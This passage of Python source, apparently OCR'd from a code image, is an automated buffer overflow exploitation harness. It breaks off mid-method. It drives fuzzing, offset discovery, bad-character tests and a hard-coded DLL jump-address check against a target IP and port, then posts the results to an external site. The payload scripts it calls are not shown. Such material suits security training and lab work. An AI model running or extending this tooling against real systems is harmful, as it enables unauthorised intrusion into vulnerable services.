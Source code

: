 ```python
        print(f"[+] Testing bad characters with offset {offset}")
        try:
            subprocess.run([
                "python3", "badchars.py",
                self.target_ip, str(self.target_port),
                "--offset", str(offset)
            ], timeout=60)
            return True
        except Exception as e:
            print(f"[-] Bad character test failed: {e}")
            return False
    
    def verify_dll_address(self, offset, dll_addr="7B8AA968"):
        """Verify DLL address works for exploitation"""
        print(f"[+] Verifying DLL address {dll_addr}")
        try:
            subprocess.run([
                "python3", "verify_dll_address.py",
                self.target_ip, str(self.target_port),
                "--offset", str(offset),
                "--dll-addr", dll_addr
            ], timeout=60)
            return True
        except Exception as e:
            print(f"[-] DLL address verification failed: {e}")
            return False
    
    def log_test_results(self, test_results):
        """Log test results to target site"""
        try:
            data = {
                'timestamp': time.time(),
                'target': f"{self.target_ip}:{self.target_port}",
                'test_results': test_results,
                'test_type': 'buffer_overflow_analysis'
            }
            
            response = requests.post(self.test_site, json=data, timeout=10)
            if response.status_code == 200:
                print("[+] Test results logged successfully")
            else:
                print(f"[-] Failed to log results: HTTP {response.status_code}")
                
        except Exception as e:
            print(f"[-] Logging failed: {e}")
    
    def run_full_analysis(self):
        """Run complete buffer overflow analysis"""
        print("="*60)
        print("AUTOMATED BUFFER OVERFLOW ANALYSIS")
        print("="*60)
        
        test_results = {
            'fuzzing': False,
            'offset_discovery': False,
            'bad_char_test': False,
            'dll_verification': False
        }
        
        # Step 1: Fuzzing
        test_results['fuzzing'] = self.run_fuzzing_test()
        
        # Step 2: Offset Discovery (if crash found)
```